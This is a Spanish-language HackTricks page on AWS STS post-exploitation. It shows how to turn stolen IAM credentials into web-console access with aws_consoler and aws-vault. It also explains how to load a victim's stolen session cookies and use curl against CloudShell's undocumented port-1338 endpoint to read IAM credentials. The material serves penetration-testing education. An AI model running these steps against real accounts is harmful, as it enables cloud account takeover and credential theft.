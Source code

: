 # AWS - Post Explotación de STS

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## STS

Para más información:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### De Credenciales IAM a Consola

#### aws\_consoler

Si has logrado obtener algunas credenciales IAM, es posible que estés interesado en acceder a la consola web. Puedes **generar un enlace de consola web** con [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).

```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #Esto generará un enlace para iniciar sesión en la consola
```

{% hint style="warning" %}
Asegúrate de que el usuario IAM tenga permiso `sts:GetFederationToken`, o proporciona un rol para asumir.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) es una herramienta para almacenar y acceder de forma segura a las credenciales de AWS en un entorno de desarrollo.

```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Ejecuta aws cli con las credenciales de jonsmith
aws-vault login jonsmith # Abre un navegador iniciado sesión como jonsmith
```

{% hint style="info" %}
También puedes usar **aws-vault** para obtener una **sesión de consola en el navegador**
{% endhint %}

#### De Consola a Credenciales IAM

Si logras comprometer algún acceso a una consola web (tal vez robaste cookies y no pudiste acceder a la carpeta .aws), puedes obtener algunas credenciales de token IAM para ese usuario a través de **CloudShell**.

CloudShell expone las credenciales IAM a través de un **punto final no documentado en el puerto 1338**. Después de cargar las cookies de sesión de la víctima en tu navegador, puedes navegar a CloudShell y emitir los siguientes comandos para obtener las credenciales IAM.

```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>